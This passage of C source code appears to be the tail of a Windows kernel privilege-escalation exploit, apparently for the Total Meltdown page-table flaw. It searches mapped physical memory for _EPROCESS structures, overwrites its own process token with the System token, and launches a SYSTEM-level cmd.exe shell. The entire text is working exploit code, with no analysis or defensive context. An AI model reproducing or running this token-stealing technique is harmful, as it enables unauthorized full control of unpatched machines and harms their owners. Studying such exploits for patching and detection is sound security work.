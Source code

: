 ```C
	printf("[*] Hunting for _EPROCESS structures in memory\n");

	for (int j = 0; j < count; j++) {
		printf("[*] Trying physical region %p - %p\n", regions[j].address, regions[j].address + regions[j].size);

		for (unsigned long long i = regions[j].address; i < +regions[j].address + regions[j].size; i++) {

			__try {
				// Locate EPROCESS via the IMAGE_FILE_NAME field, and PRIORITY_CLASS field
				if (ourEPROCESS == 0 && memcmp("TotalMeltdownP", (unsigned char*)(exploitVM + i), 14) == 0) {
					if (*(unsigned char*)(exploitVM + i + EPROCESS_PRIORITY_OFFSET) == 0x2) {
						ourEPROCESS = exploitVM + i - EPROCESS_IMAGENAME_OFFSET;
						printf("[*] Found our _EPROCESS at %p\n", ourEPROCESS);
					}
				}
				// Locate EPROCESS via the IMAGE_FILE_NAME field, and PRIORITY_CLASS field
				else if (systemEPROCESS == 0 && memcmp("System\0\0\0\0\0\0\0\0\0", (unsigned char*)(exploitVM + i), 14) == 0) {
					if (*(unsigned char*)(exploitVM + i + EPROCESS_PRIORITY_OFFSET) == 0x2) {
						systemEPROCESS = exploitVM + i - EPROCESS_IMAGENAME_OFFSET;
						printf("[*] Found System _EPROCESS at %p\n", systemEPROCESS);
					}
				}

				if (systemEPROCESS != 0 && ourEPROCESS != 0) {
					// Swap the tokens by copying the pointer to System Token field over our process token
					printf("[*] Copying access token from %p to %p\n", systemEPROCESS + EPROCESS_TOKEN_OFFSET, ourEPROCESS + EPROCESS_TOKEN_OFFSET);
					*(unsigned long long*)((char*)ourEPROCESS + EPROCESS_TOKEN_OFFSET) = *(unsigned long long*)((char*)systemEPROCESS + EPROCESS_TOKEN_OFFSET);
					printf("[*] Done, spawning SYSTEM shell...\n\n");

					CreateProcessA(0,
						"cmd.exe",
						NULL,
						NULL,
						TRUE,
						0,
						NULL,
						"C:\\windows\\system32",
						&si,
						&pi);
					break;
				}
			}
			__except (EXCEPTION_EXECUTE_HANDLER) {
				printf("[X] Exception occured, stopping to avoid BSOD\n");
				return 2;
			}
		}
	}
	return 0;
}
```
